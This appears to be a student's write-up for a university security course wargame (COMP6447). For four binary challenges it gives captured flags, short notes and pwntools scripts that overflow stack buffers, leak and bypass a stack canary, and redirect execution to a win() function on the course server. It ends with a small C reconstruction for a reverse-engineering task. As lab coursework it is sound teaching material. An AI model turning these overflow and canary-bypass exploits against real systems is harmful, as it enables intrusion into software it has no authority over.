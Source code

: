 # COMP6447 Wargame 2
Written by WENG XINN CHOW (z5346077) on 13.06.2022

jump
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1qdW1wIiwiaXAiOiIxMDMuMjE2LjE5MC4zNyIsInNlc3Npb24iOiIwMzZhOTgxMi00YWM0LTQyMjktYTRjNy00MTQzMDU3YjZlNTAifQ.agH2ctSVrkSfXwONPEp2dswt5n6jnSSQH_fAv_m9Ek4}

General overview of problems faced
-------------------------------------
1. Had to find win() address using ```objdump -d jump```.
2. Had to find the correct buffer to overwrite.

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port =  28958
p = remote(host, port)

p.recvuntil('at ')
win_add = p.recvuntil('\n')[:-1]
# Overwrite the buffer with the win() address: 0x8048536
win_addr = 0x8048536
res = str('a' * 64).encode('UTF-8') + p32(win_addr)
print(res)
p.sendline(res)

p.interactive()
```
blind
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1ibGluZCIsImlwIjoiMTAzLjIxNi4xOTAuMzciLCJzZXNzaW9uIjoiZDA1YTcwNmQtMGE1Ni00MjFkLWJhMzUtOWJkZDkyODYyM2RhIn0.tM9SPq8VqXYwhuDrmu0Oaa-2qxWC-YqF6Zl4yMrB90g}

General overview of problems faced
-------------------------------------
1. Had to find win() address using ```objdump -d blind```.
2. Had to figure out the correct buffer to overwrite.

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port =  28872
p = remote(host, port)

# Overwrite the buffer with the win() address: 0x80484d6
win_addr = 0x80484d6
res = str('a' * 72).encode('UTF-8') + p32(win_addr)
print(res)
p.sendline(res)

p.interactive()
```
bestsecurity
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1iZXN0c2VjdXJpdHkiLCJpcCI6IjEwMy4yMTYuMTkwLjM3Iiwic2Vzc2lvbiI6ImU5M2ZjODI5LTViOWEtNGUxZS1iZDhjLWIxMjM0MGE1NTdjYyJ9.vs6FWCP_w5yHjluF_i5R1EkSTpxJc_YKd2Qj6KmAQe8}

General overview of problems faced
-------------------------------------
1. Had to find the correct canary value. By using ```binary ninja```, I was able to  guess that the value is '1234'.
2. Had to figure out how many times '1234' should be entered as input. Using```gdb```, we know that the buffer size is 128, thus in order to overwrite the buffer, at least 33 times '1234 should be entered. 

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port =  26949
p = remote(host, port)

# Bypass the canary by entering enough times of 1234
res = '1234' * 33
p.sendline(str(res).encode('UTF-8'))

p.interactive()
```
stack-dump
===========================
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiMi1zdGFjay1kdW1wIiwiaXAiOiIxMDMuMjE2LjE5MC4zNyIsInNlc3Npb24iOiJkZDljMjA5OS1kZWYyLTRkZGMtYWUxYS05ZjA3ZjVlOTBiMzQifQ.cVeJg74qJ0bL7dMVjTJmLXbLbHwqiDxggpLb5ch2HS0}

General overview of problems faced
-------------------------------------
1. Had to find out the canary address. Using ```canary``` in gdb, I was was able to find out the  canary address. Thus, subtracting it by the useful pointer gives 105. 
2. Had to figure  out the  canary value. This can be done by printing the dump memory. 
3. Had to discover the  win() address and the correct buffer to reach the canary.
4. Had to bypass the canary and then overwrite the  return address with enough times of win() address.  

Script/Command used
------------------
```
from pwn import *

host = "comp6447.wtf"
port =  24973
p = remote(host, port)

# Get the useful pointer (stack pointer)
# The canary is located at +105 of the  pointer 
p.recvuntil(b'pointer ')
pointer = p.recvuntil(b'\n')[:-1]
canary_addr = int(pointer, 0) + 105
canary_addr = p32(canary_addr)
canary_addr += b'\n'

p.recvlines(4)

p.sendline(b'a')
p.sendline(b'5')
p.sendline(canary_addr)
p.recvlines(10)

# Print the dump memory and the canary value = first 4 bytes
p.sendline(b'b')
canary = p.recvline()
canary = canary[22:26]

p.recvlines(4)

p.sendline(b'a')
win_addr = 0x080486c6
# Overwrite the buffer (96) and the correct canary value
# then overwrite the return address with enough time of the win() address 
res = b'A' * 96 + canary + p32(win_addr) * 3
p.sendline(res)

p.interactive()
```
re chall1
=============
General overview of problems faced
-------------------------------------
1. Had to recall back c knowledge (e.g. scanf, printf).
2. Had to refresh my memory on assembly.
```C
int main(int argc, char** argv) {
    int a;
    scanf('%d', &a);

    if (a == 1337){
        printf("Your so leet!");
    }
    else{
        printf("Bye");
    }
}
```
